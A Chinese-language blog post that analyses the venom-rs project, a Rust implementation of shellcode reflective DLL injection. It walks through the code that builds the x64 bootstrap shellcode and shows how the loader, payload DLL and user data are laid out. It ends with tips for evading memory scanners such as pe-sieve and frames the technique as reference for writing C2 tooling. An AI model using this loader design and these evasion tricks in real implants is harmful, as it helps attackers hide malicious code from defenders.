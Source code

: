 ```yaml
---
title: srdi-rs项目学习
date: '2025-06-02 21:16:34'
permalink: /post/srdirs-project-learning-z1ry7kq.html
layout: post
published: true
---
```






本篇文章对 [memN0ps/venom-rs: Rusty Injection - Shellcode Reflective DLL Injection (sRDI) in Rust](https://github.com/memN0ps/venom-rs) 进行分析学习，该项目完成了 rust 下 rdi 的实现，在写 c2 的时候有一定的参考意义。

## 项目分析

### 项目总体分析

项目目录如下所示，共有四个文件夹，分别为 generate_shellcode、inject、payload、reflective_loader，其中 inject 顾名思义是注入模块，是作者为了方便测试生成的 shellcode 所写的，这里不多做分析，payload 模块也就是要执行的功能模块，作者在这里写了弹窗功能，也不多做分析。

![image](https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/image-20250602212116-8e3h6og.png)

### reflective_loader

该部分实现了一个名为 `loader` ​的导出函数，用于反射加载 payload，和常规的 rdi 一样，其流程如下图所示：

![image](https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/image-20250602213922-ib32yct.png)

在这里不多解释流程，但是在最后我们会讨论一些优化的点。

### generate_shellcode

generate_shellcode 这一部分是该项目的核心所在，而该部分的核心就是 `Bootstrap` ​的构造，下面对 `Bootstrap` ​的构造进行详细分析。

首先 shellcode 需要找到自身在内存中的位置，通过 `call 0x00`​ 的方式，将下一条指令的位置压入栈中，进而 `pop rcx;mov r8, rcx`​,将位置保存到 rcx 和 r8 中。

```rust
    //
    // Step 1) Save the current location in memory for calculating addresses.
    //

    // call 0x00 (This will push the address of the next function to the stack)
    bootstrap.push(0xe8);
    bootstrap.push(0x00);
    bootstrap.push(0x00);
    bootstrap.push(0x00);
    bootstrap.push(0x00);

    // pop rcx - This will pop the value we saved on the stack into rcx to capture our current location in memory
    bootstrap.push(0x59);

    // mov r8, rcx - We copy the value of rcx into r8 before we start modifying RCX
    bootstrap.push(0x49);
    bootstrap.push(0x89);
    bootstrap.push(0xc8);
```

紧接着，对齐栈指针并且为函数调用开辟影子空间。`push rsi;mov rsi, rsp;and rsp, 0x0FFFFFFFFFFFFFFF0`​，先备份 rsi 和 rsp，然后将 rsp 按照 16 字节对齐（windows 调用约束规定），`sub rsp, 0x30`​ ​开辟影子空间，因为 `loader`​ ​函数共有六个参数，所以要预留 `6 × 8 = 48`​ ​字节空间，即使前四个参数通过寄存器传参这里也需要预留空间。

```rust
    // Step 2) Align the stack and create shadow space
    // push rsi - save original value
    bootstrap.push(0x56);

    // mov rsi, rsp - store our current stack pointer for later
    bootstrap.push(0x48);
    bootstrap.push(0x89);
    bootstrap.push(0xe6);

    // and rsp, 0x0FFFFFFFFFFFFFFF0 - Align the stack to 16 bytes
    bootstrap.push(0x48);
    bootstrap.push(0x83);
    bootstrap.push(0xe4);
    bootstrap.push(0xf0);

    // sub rsp, 0x30 (48 bytes) - create shadow space on the stack, which is required for x64. A minimum of 32 bytes for rcx, rdx, r8, r9. Then other params on stack
    bootstrap.push(0x48);
    bootstrap.push(0x83);
    bootstrap.push(0xec);
    bootstrap.push(6 * 8); //6 args that are 8 bytes each
```

然后我们开始参数传递，`loader` ​函数的签名为：`pub unsafe extern "system" fn loader(payload_dll: *mut c_void, function_hash: u32, user_data: *mut c_void, user_data_len: u32, _shellcode_bin: *mut c_void, _flags: u32)`​，

首先是第 5 个参数，是 `_shellcode_bin`​，其实也就是 shellcode 的其实位置，将之前 rcx 中的值减去 5 即可，这个参数在 `loader`​ ​函数中并没有使用，但是我们可以自己加上清理内存的步骤。然后是第六个参数，其实就是一个 flag 值，用来判断是执行 `DllMain`​ ​还是其他导出函数。

```rust
    // Step 3) Setup reflective loader parameters: Place the last 5th and 6th args on the stack since, rcx, rdx, r8, r9 are already in use for our first 4 args.
    // mov qword ptr [rsp + 0x20], rcx (shellcode base + 5 bytes) - (32 bytes) Push in arg 5
    bootstrap.push(0x48);
    bootstrap.push(0x89);
    bootstrap.push(0x4C);
    bootstrap.push(0x24);
    bootstrap.push(4 * 8); // 5th arg
    // sub qword ptr [rsp + 0x20], 0x5 (shellcode base) - modify the 5th arg to get the real shellcode base
    bootstrap.push(0x48);
    bootstrap.push(0x83);
    bootstrap.push(0x6C);
    bootstrap.push(0x24);
    bootstrap.push(4 * 8); // 5th arg

    bootstrap.push(5); // minus 5 bytes because call 0x00 is 5 bytes to get the allocate memory from VirtualAllocEx from injector
    // mov dword ptr [rsp + 0x28], <flags> - (40 bytes) Push arg 6 just above shadow space
    bootstrap.push(0xC7);
    bootstrap.push(0x44);
    bootstrap.push(0x24);
    bootstrap.push(5 * 8); // 6th arg
    bootstrap.append(&mut flags_value.to_le_bytes().to_vec().clone());
```

然后是第四个参数 `user_data_len`​，这是传递给 payload 的参数的长度，第三个参数 `user_data`​，该参数的位置在 srdi 的最后，还记得我们前面 r8 中已经存了 `shellcode的位置+5`​，所以我们再加上剩下的 bootstrap 以及 loader、payload 就找到 userdata 了，即 `add r8,(BOOTSTRAP_TOTAL_LENGTH - 5) + loader_bytes.len() + payload_bytes.len();`​

然后是第二个参数`function_hash`​，要执行的函数的hash，直接mov就行了。第一个参数`payload_dll`​，payload的位置，`add rcx, (BOOTSTRAP_TOTAL_LENGTH - 5) + loader_bytes.len()`​，道理和前面`user_data`​一样，不再多讲。

```rust
    // Step 4) Setup reflective loader parameters: Place the 1st, 2nd, 3rd and 4th args in rcx, rdx, r8, r9

    // mov r9, <parameter_length> - copy the 4th parameter, which is the length of the user data into r9
    bootstrap.push(0x41);
    bootstrap.push(0xb9);
    let parameter_length = parameter_value.len() as u32; // This must u32 or it breaks assembly
    bootstrap.append(&mut parameter_length.to_le_bytes().to_vec().clone());

    // add r8, <parameter_offset> + <payload_length> - copy the 3rd parameter, which is address of the user function into r8 after calculation
    bootstrap.push(0x49);
    bootstrap.push(0x81);
    bootstrap.push(0xc0); // We minus 5 because of the call 0x00 instruction
    let parameter_offset =  (BOOTSTRAP_TOTAL_LENGTH - 5) + loader_bytes.len() as u32 + payload_bytes.len() as u32;
    bootstrap.append(&mut parameter_offset.to_le_bytes().to_vec().clone());

    // mov edx, <prameter_hash> - copy the 2nd parameter, which is the hash of the user function into edx
    bootstrap.push(0xba);
    bootstrap.append(&mut function_hash.to_le_bytes().to_vec().clone());

    // add rcx, <payload_offset> - copy the 1st parameter, which is the address of the user dll into rcx after calculation
    bootstrap.push(0x48);
    bootstrap.push(0x81);
    bootstrap.push(0xc1); // We minus 5 because of the call 0x00 instruction
    let payload_offset = (BOOTSTRAP_TOTAL_LENGTH - 5) + loader_bytes.len() as u32; // This must u32 or it breaks assembly
    bootstrap.append(&mut payload_offset.to_le_bytes().to_vec().clone());
```

接下来就是`call <loader_offset>`​，同样的按照上面的方法计算出loader函数和当前位置偏移即可偏移，最后恢复寄存器的值，`ret`​即可。

End Bootstrap之后继续构造shellcode，后面分别添加上loader、payload、user_data即可。

```rust
    // Step 5) Call reflective loader function

    // call <loader_offset> - call the reflective loader address after calculation
    bootstrap.push(0xe8);
    // This must u32 or it breaks assembly
    let loader_address = (BOOTSTRAP_TOTAL_LENGTH - bootstrap.len() as u32 - 4 as u32) + loader_offset as u32;    
    bootstrap.append(&mut loader_address.to_le_bytes().to_vec().clone());

    // Step 6) Reset the stack to how it was and return to the caller

    // mov rsp, rsi - Reset our original stack pointer
    bootstrap.push(0x48);
    bootstrap.push(0x89);
    bootstrap.push(0xf4);

    // pop rsi - Put things back where we left them
    bootstrap.push(0x5e);

    // ret - return to caller and resume execution flow (avoids crashing process)
    bootstrap.push(0xc3);

    // End Bootstrap

 	let mut shellcode: Vec<u8> = Vec::new();

    // Bootstrap shellcode populated with the correct offsets and values
    shellcode.append(&mut bootstrap);

    // Reflective Loader (RDI)
    shellcode.append(loader_bytes);

    // Payload DLL (Existing DLL)
    shellcode.append(payload_bytes);

    // Parameter Value (User-Data)
    shellcode.append(&mut parameter_value.as_bytes().to_vec());
```

x86下看bootstrap：

![](https://cdn.nlark.com/yuque/0/2024/png/40360538/1719661787005-d85880a1-0a74-474e-8fa1-e5a54098c662.png)

最后整体布局如下：

![image](https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/image-20250603140356-6svfdxx.png)

## 优化的点

下面讨论一些优化的点：

1. 在将payload复制的时候，文件头可以不用复制，擦除文件头
2. 修改内存段属性，注意内存属性的分配
3. 我们在`loader`​函数中传参，传的`_shellcode_bin`​参数并没有使用，可以利用这个参数将旧内存进行清理，可以在loader中清理BootStrap的，然后在新内存空间的payload中清理shellcode剩下的内存，或者直接在payload中清理整个shellcode

经过优化可达到bypass pe-sive的效果：

![82216cb6e7801822d61bdd009518ed5a](https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/82216cb6e7801822d61bdd009518ed5a-20250603142108-w1aaxas.png)
